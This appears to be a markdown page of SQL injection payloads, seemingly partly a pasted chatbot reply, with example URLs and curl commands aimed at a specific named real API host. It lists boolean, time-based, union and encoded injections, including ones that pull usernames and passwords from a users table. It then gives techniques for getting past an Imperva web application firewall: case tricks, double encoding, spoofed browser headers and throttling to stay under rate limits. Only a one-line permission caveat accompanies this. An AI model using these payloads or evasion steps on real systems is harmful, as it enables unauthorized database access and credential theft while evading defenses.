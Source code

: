 To test for SQL injection vulnerabilities by appending common payloads to the URL, you can try the following common SQL injection payloads. Each one should be appended as a query parameter or applied in the appropriate field of the API request.

Here is a list of SQL injection payloads to test for different scenarios:
1. Basic SQL Injection

' OR '1'='1' --
' OR 1=1 --
' OR 'x'='x' --
' OR 1=1# 
' OR 1=1/* 

2. Time-Based Blind SQL Injection
(Payloads to test for blind injection by introducing a delay)

' OR IF(1=1, SLEEP(5), 0) --
' OR IF(1=2, SLEEP(5), 0) --
' OR 1=1 AND SLEEP(5) --
' OR 1=2 AND SLEEP(5) --

3. Union-based SQL Injection
(Common to test for union queries that can be used to retrieve data from the database)

' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' UNION SELECT table_name, column_name FROM information_schema.columns --

4. Error-Based SQL Injection
(Payloads to trigger errors in the SQL server and potentially reveal useful information)

' AND 1=1 --
' AND 1=2 --
' ' AND 1=1 --
' ' AND 1=2 --

5. Comment-Based SQL Injection
(Injecting comments to bypass query logic)

' -- 
' #
' /* 

6. Multiple Payload Variations

' OR 'a'='a' --
' AND 1=1 --
' AND 1=2 --
' OR 1=1 --
' AND 'a'='a' --
' AND 'a'='b' --
' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' OR EXISTS(SELECT * FROM users WHERE username='admin' AND password='password') --

7. SQL Injection with Hex Encoding
(Sometimes using hex encoding can bypass filters)

%27%20OR%20%271%27%3D%271%27%20--
%27%20OR%201%3D1%20--
%27%20OR%20%27x%27%3D%27x%27%20--

8. Testing for Specific Database Error Messages

' OR 1=1 --
' OR 1=1 --
' AND 1=1 --
' OR '1'='1' --

## Example URLs for Testing
If the API endpoint looks like https://api.eu.app.varonis.io/resource, you can append these payloads to test them:

    Basic SQL Injection:

https://api.eu.app.varonis.io/resource?param=' OR '1'='1' --
https://api.eu.app.varonis.io/resource?param=' OR 1=1 --

Union-based SQL Injection:

https://api.eu.app.varonis.io/resource?param=' UNION SELECT NULL, NULL, NULL --
https://api.eu.app.varonis.io/resource?param=' UNION SELECT 1, 2, 3 --

Error-Based SQL Injection:

https://api.eu.app.varonis.io/resource?param=' AND 1=2 --
https://api.eu.app.varonis.io/resource?param=' AND 1=1 --

Time-Based Blind Injection:

    https://api.eu.app.varonis.io/resource?param=' OR IF(1=1, SLEEP(5), 0) --
    https://api.eu.app.varonis.io/resource?param=' OR IF(1=2, SLEEP(5), 0) --

Important Notes

    Testing Safely: Only test on endpoints you have permission to assess. Testing without authorization is illegal and unethical.
    Monitor for Errors: If error messages or unexpected behavior are encountered, they can indicate potential vulnerabilities.
    Response Behavior: Watch for long response times, changes in output, or unexpected results that could suggest the system is processing the SQL injection query.

If you need further help with setting up these tests or analyzing responses, feel free to ask!



## list of SQL injection payloads:
' OR '1'='1' --
' OR 1=1 --
' OR 'x'='x' --
' OR 1=1# 
' OR 1=1/* 
' OR IF(1=1, SLEEP(5), 0) --
' OR IF(1=2, SLEEP(5), 0) --
' OR 1=1 AND SLEEP(5) --
' OR 1=2 AND SLEEP(5) --
' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' UNION SELECT table_name, column_name FROM information_schema.columns --
' AND 1=1 --
' AND 1=2 --
' ' AND 1=1 --
' ' AND 1=2 --
' -- 
' #
' /* 
'/**/OR/**/1=1--
' OR 'a'='a' --
' AND 1=1 --
' AND 1=2 --
' OR 1=1 --
' AND 'a'='a' --
' AND 'a'='b' --
' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' OR EXISTS(SELECT * FROM users WHERE username='admin' AND password='password') --
%27%20OR%20%271%27%3D%271%27%20--
%27%20OR%201%3D1%20--
%27%20OR%20%27x%27%3D%27x%27%20--
%27%20OR%20%271%27%3D%271%27%20--
' OR 1=1 --
' OR 1=1 --
' AND 1=1 --
' OR '1'='1' --
' Or '1'='1' --
' oR '1'='1' --
%27%20OR%20%271%27%3D%271%27%20--
%2527%2520OR%25201%253D1%2520--
'/*comment*/OR/*comment*/'1'='1'--
' OR '1'='1' AND 'a'+'b'='ab'--
' AND 1=1 --
' || '1'='1' --
' OR IF(1=1, SLEEP(5), 0)--
' OR BENCHMARK(1000000, MD5('test'))--


# WAF Blocking Your Tests?
Imperva WAF uses:
    Signature-based Detection: Identifies known SQL injection patterns.
    Anomaly Detection: Tracks unusual activity or traffic patterns.
    Rate Limiting: Restricts requests if they exceed a defined threshold.
    IP Reputation and Blacklisting: Blocks requests from known malicious IP addresses.
    Behavioral Analysis: Detects unusual API usage.

- Bypassing WAF Responsibly
1. Obfuscate SQL Injection Payloads
WAFs look for specific patterns; obfuscating payloads might bypass detection:
    Case Alteration:
' Or '1'='1' --
' oR '1'='1' --
URL Encoding:
%27%20OR%20%271%27%3D%271%27%20--
Double Encoding:
%2527%2520OR%25201%253D1%2520--
Inline Comments:
    '/*comment*/OR/*comment*/'1'='1'--

2. Modify Query Structure
Try payloads that alter query structures in less predictable ways:
    Using string concatenation:
' OR '1'='1' AND 'a'+'b'='ab'--
Testing alternate logical operators:
    ' AND 1=1 --
    ' || '1'='1' --

3. Test WAF Behavior with Time-Based Payloads
Imperva WAF might block specific payloads but may not detect delayed responses:
    Check response times to infer blind SQL injection:
    ' OR IF(1=1, SLEEP(5), 0)--
    ' OR BENCHMARK(1000000, MD5('test'))--

4. Use Legitimate Traffic Headers
Add common headers to make your traffic appear legitimate:
curl -I -H "User-Agent: Mozilla/5.0" \
     -H "Referer: https://api.eu.app.varonis.io/" \
     -H "Accept: application/json" \
     "https://api.eu.app.varonis.io/resource?param=' OR '1'='1' --"

5. Slow Down Requests
Throttle the request rate to avoid triggering the WAF rate-limiting mechanism:
sleep 2 && curl "https://api.eu.app.varonis.io/resource?param=' OR '1'='1' --"

# Bypassing WAF List
' Or '1'='1' --
' oR '1'='1' --
%27%20OR%20%271%27%3D%271%27%20--
%2527%2520OR%25201%253D1%2520--
'/*comment*/OR/*comment*/'1'='1'--
' OR '1'='1' AND 'a'+'b'='ab'--
' AND 1=1 --
' || '1'='1' --
' OR IF(1=1, SLEEP(5), 0)--
' OR BENCHMARK(1000000, MD5('test'))--

